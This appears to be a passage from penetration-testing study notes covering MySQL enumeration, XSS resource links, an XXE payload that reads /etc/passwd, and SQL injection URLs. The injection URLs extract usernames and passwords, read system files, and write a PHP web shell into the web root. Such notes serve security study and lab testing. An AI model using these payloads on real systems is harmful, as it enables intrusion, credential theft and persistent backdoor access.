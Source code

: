 ### SQL Enumeration
Connect remotely to mysql database:
```
mysql --host=10.10.10.10 --port=1234 --user=db_user -p
```
Show privileges
```
SHOW Grants;
show variables;
```



# Web Application Attacks
## Cross Site Scripting (XSS)
:information_source: https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A7-Cross-Site_Scripting_(XSS)
:information_source: https://www.scip.ch/en/?labs.20171214 
:information_source: https://xss-game.appspot.com/
:information_source: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
:information_source: https://github.com/payloadbox/xss-payload-list
:information_source: https://tryhackme.com/room/learnowaspzap

## XML External Entities (XXE)
Basic idea: upload an xml to test if it gets parsed and then abusing the doctype definition (DTD).

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

## SQL Injection
### Resources
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
* https://github.com/payloadbox/sql-injection-payload-list

### Manual Enumeration
```
http://10.10.10.10/debug.php?id=1 order by 1 # increase until an error occurs to get number of columns

http://10.10.10.10/debug.php?id=1 union all select 1, 2, 3
http://10.10.10.10/debug.php?id=1 union all select 1, username, password
http://10.10.10.10/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
http://10.10.10.10/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```
